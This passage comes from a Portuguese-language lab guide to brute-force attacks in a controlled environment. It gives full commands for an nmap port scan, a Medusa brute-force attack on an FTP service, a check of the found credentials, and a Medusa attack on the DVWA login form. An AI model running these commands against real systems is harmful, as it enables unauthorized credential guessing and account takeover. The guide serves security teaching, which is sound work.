 Exemplo:

mkdir -p ~/project/outputs
nmap -sS -sV -p- 192.168.56.101 -oN ~/project/outputs/initial-nmap.txt

Salve o arquivo initial-nmap.txt como evidência.

3) Cenário A — Força bruta em FTP (Medusa)

Objetivo: demonstrar como brutes force funcionam contra serviço FTP.

Exemplo (executar somente no alvo controlado):

cd ~/project
medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/passwords-basic.txt -M ftp -t 6 -f |& tee outputs/medusa-ftp-output.txt

Explicação dos parâmetros:

-h host alvo

-U arquivo com usuários

-P arquivo com senhas

-M ftp módulo FTP do Medusa

-t 6 threads concorrentes (ajuste conforme lab)

-f faz com que o Medusa pare ao encontrar credenciais válidas

Registre: tempo de execução, credenciais encontradas (se houver), e copie saída para o repositório.

Validação (FTP)

Se Medusa reportar credenciais válidas, valide:

ftp 192.168.56.101
# quando pedir usuário, informe usuário e senha encontrados
# ou
lftp -u usuario,senha ftp://192.168.56.101

Capture prints/saídas.

4) Cenário B — Formulário web (DVWA)

Objetivo: demonstrar ataque a formulário de login de aplicação vulnerável (DVWA).

Observação: Medusa tem módulos http_form/http que podem ser usados dependendo da versão. Se não funcionar, utilize Burp Suite (Intruder) ou Hydra para webforms.

Passos resumidos:

Identifique a URL de login e os nomes dos campos (ex.: username, password) usando o browser/DevTools.

Montar comando ejemplo (sintaxe ilustrativa — adapte conforme o formulário real):

medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/passwords-basic.txt -M http_form -m "login:username=^USER^&password=^PASS^&submit=Login" -T 6 |& tee outputs/medusa-httpform-output.txt
